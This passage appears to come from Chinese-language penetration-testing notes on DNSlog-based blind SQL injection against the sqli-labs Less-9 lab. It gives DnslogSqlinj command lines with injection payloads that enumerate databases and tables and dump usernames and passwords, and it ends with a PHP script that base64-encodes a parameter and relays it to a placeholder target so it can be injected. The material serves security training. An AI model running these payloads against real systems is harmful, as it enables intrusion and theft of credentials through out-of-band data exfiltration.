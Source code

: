 ![1626268850_60eee4b26a7955fc144e7.png!small?1626268850513](https://img.yatjay.top/md/202203251651160.jpeg)

![1626268862_60eee4be97d15b52c7aff.png!small?1626268862589](https://img.yatjay.top/md/202203242151407.jpeg)

查询到的是hex编码的结果

![1626268884_60eee4d43a1d2a403355a.png!small?1626268884241](https://img.yatjay.top/md/202203251651042.jpeg)

## py-Dnslogsqlinj工具使用——dnslog 注入演示脚本演示(实际案例)

项目地址：https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

需要使用python27环境

首先需要修改配置文件:

![](https://img.yatjay.top/md/202203251651283.png)

对于Less-9进行测试(本地地址为：http://localhost/pentest/sqlilabs/Less-9/?id=1)，使用语句如下：

获取数据库名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" --dbs`

获取数据库security下的表名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security --tables`

获取users表的列名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users --columns`

获取uses表中的数据:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump`

或直接使用`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+"`进行测试

![](https://img.yatjay.top/md/202203251651703.png)

# 涉及资源

- http://ceye.io/  知道创宇的DNS平台

- https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

- https://www.bbsmax.com/A/A2dmVVQBze/   Sqlmap注入Base64编码的注入点：

- https://www.freebuf.com/column/184587.html

- https://www.cnblogs.com/renhaoblog/p/12912452.html

- https://www.pianshen.com/article/9561325277/

- https://github.com/bugscanteam/dnslog/(自己搭建dnslog服务器)

- PHP脚本
```php
<?php
$url='http://xxxx/job_bystjb/yjs_byszjs.asp?id=';  //声明url
$payload=base64_encode($_GET['x']);
echo  $payload;
$urls=$url.$payload;
file_get_contents($urls);
echo$urls;
?>
```

